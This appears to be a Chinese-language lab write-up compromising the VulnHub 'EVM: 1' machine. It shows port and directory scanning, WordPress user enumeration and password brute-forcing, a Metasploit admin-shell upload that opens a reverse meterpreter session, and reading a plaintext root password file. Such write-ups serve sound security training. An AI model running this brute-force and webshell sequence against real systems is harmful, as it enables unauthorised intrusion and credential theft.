

# EVM: 1

> https://download.vulnhub.com/evm/EVM.ova

靶场IP：`192.168.32.11`

扫描对外端口服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.11 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 04:16 EDT
Nmap scan report for 192.168.32.11
Host is up (0.00019s latency).
Not shown: 65528 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
53/tcp  open  domain      ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 08:00:27:F4:BF:C2 (Oracle VirtualBox virtual NIC)
Service Info: Host: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.10 seconds

```

访问80端口



爆破目录

```
┌──(root㉿kali)-[~]
└─# dirb http://192.168.32.11/ 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep  8 04:19:07 2022
URL_BASE: http://192.168.32.11/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.11/ ----
+ http://192.168.32.11/index.html (CODE:200|SIZE:10821)                                                                                                                                                                                   
+ http://192.168.32.11/info.php (CODE:200|SIZE:83001)                                                                                                                                                                                     
+ http://192.168.32.11/server-status (CODE:403|SIZE:301)                                                                                                                                                                                  
==> DIRECTORY: http://192.168.32.11/wordpress/                                                                                                                                                                                            
                                                                                                                                                                                                                                          
---- Entering directory: http://192.168.32.11/wordpress/ ----
+ http://192.168.32.11/wordpress/index.php (CODE:301|SIZE:0)                                                                                                                                                                              
==> DIRECTORY: http://192.168.32.11/wordpress/wp-admin/                                                                                                                                                                                   
==> DIRECTORY: http://192.168.32.11/wordpress/wp-content/                                                                                                                                                                                 
==> DIRECTORY: http://192.168.32.11/wordpress/wp-includes/                                                                                                                                                                                
+ http://192.168.32.11/wordpress/xmlrpc.php (CODE:405|SIZE:42)                                                                                                                                                                            
                                                                                                                                                                                                                                          
---- Entering directory: http://192.168.32.11/wordpress/wp-admin/ ----
+ http://192.168.32.11/wordpress/wp-admin/admin.php (CODE:302|SIZE:0)                                                                                                                                                                     
==> DIRECTORY: http://192.168.32.11/wordpress/wp-admin/css/                                                                                                                                                                               
==> DIRECTORY: http://192.168.32.11/wordpress/wp-admin/images/                                                                                                                                                                            
==> DIRECTORY: http://192.168.32.11/wordpress/wp-admin/includes/                                                                                                                                                                          
+ http://192.168.32.11/wordpress/wp-admin/index.php (CODE:302|SIZE:0)                                                                                                                                                                     
==> DIRECTORY: http://192.168.32.11/wordpress/wp-admin/js/                                                                                                                                                                                
==> DIRECTORY: http://192.168.32.11/wordpress/wp-admin/maint/                                                                                                                                                                             
==> DIRECTORY: http://192.168.32.11/wordpress/wp-admin/network/                                                                                                                                                                           
==> DIRECTORY: http://192.168.32.11/wordpress/wp-admin/user/                                                                                                                                                                              
                                                                                                                                                                                                                                          
---- Entering directory: http://192.168.32.11/wordpress/wp-content/ ----
+ http://192.168.32.11/wordpress/wp-content/index.php (CODE:200|SIZE:0)                                                                                                                                                                   
==> DIRECTORY: http://192.168.32.11/wordpress/wp-content/plugins/                                                                                                                                                                         
==> DIRECTORY: http://192.168.32.11/wordpress/wp-content/themes/                                                                                                                                                                          
==> DIRECTORY: http://192.168.32.11/wordpress/wp-content/uploads/    
```

使用wpscan扫描，找到`c0rrupt3d_brain`用户

```
┌──(root㉿kali)-[~]
└─# wpscan --url http://192.168.32.11/wordpress/ -e at -e ap -e u

[i] User(s) Identified:

[+] c0rrupt3d_brain
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

```

爆破密码

```
┌──(root㉿kali)-[/tmp]
└─# wpscan --url http://192.168.32.11/wordpress/   -U c0rrupt3d_brain -P /usr/share/wordlists/rockyou.txt

[!] Valid Combinations Found:
 | Username: c0rrupt3d_brain, Password: 24992499
```

msf

```
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts 192.168.32.11
rhosts => 192.168.32.11
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /wordpress
targeturi => /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username c0rrupt3d_brain
username => c0rrupt3d_brain
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password 24992499
password => 24992499
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit 

[*] Started reverse TCP handler on 192.168.32.5:4444 
[*] Authenticating with WordPress using c0rrupt3d_brain:24992499...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/rAhUxTfIFH/eVAOubjMZT.php...
[*] Sending stage (39860 bytes) to 192.168.32.11
[+] Deleted eVAOubjMZT.php
[+] Deleted rAhUxTfIFH.php
[+] Deleted ../rAhUxTfIFH
[*] Meterpreter session 1 opened (192.168.32.5:4444 -> 192.168.32.11:43416 ) at 2022-09-08 04:37:28 -0400

meterpreter > 

```

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ ls -al
ls -al
total 40
drwxr-xr-x 3 www-data www-data 4096 Nov  1  2019 .
drwxr-xr-x 3 root     root     4096 Oct 30  2019 ..
-rw-r--r-- 1 www-data www-data  515 Oct 30  2019 .bash_history
-rw-r--r-- 1 www-data www-data  220 Oct 30  2019 .bash_logout
-rw-r--r-- 1 www-data www-data 3771 Oct 30  2019 .bashrc
drwxr-xr-x 2 www-data www-data 4096 Oct 30  2019 .cache
-rw-r--r-- 1 www-data www-data   22 Oct 30  2019 .mysql_history
-rw-r--r-- 1 www-data www-data  655 Oct 30  2019 .profile
-rw-r--r-- 1 www-data www-data    8 Oct 31  2019 .root_password_ssh.txt
-rw-r--r-- 1 www-data www-data    0 Oct 30  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root     root        4 Nov  1  2019 test.txt
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ cat .sudo_as_admin_successful
uccessful_as_admin_s 
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ cat .root_password_ssh.txt
sh.txtoot_password_s 
willy26

```

直接登录

